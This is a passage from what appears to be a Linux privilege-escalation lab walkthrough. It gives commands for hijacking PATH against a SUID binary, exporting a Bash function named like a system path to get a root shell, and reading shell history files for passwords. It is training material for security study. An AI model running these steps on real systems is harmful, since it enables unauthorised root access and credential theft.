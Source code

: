 First, execute the file and note that it seems to be trying to start the apache2 webserver:

/usr/local/bin/suid-env

Run strings on the file to look for strings of printable characters:

strings /usr/local/bin/suid-env

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

gcc -o service /home/user/tools/suid/service.c

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

PATH=.:$PATH /usr/local/bin/suid-env

### suid and sgid abusing shell features 

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

strings /usr/local/bin/suid-env2

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

/bin/bash --version

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

Run the suid-env2 executable to gain a root shell:

/usr/local/bin/suid-env2

### passwords and keys history files 
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

cat ~/.*history | less

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!
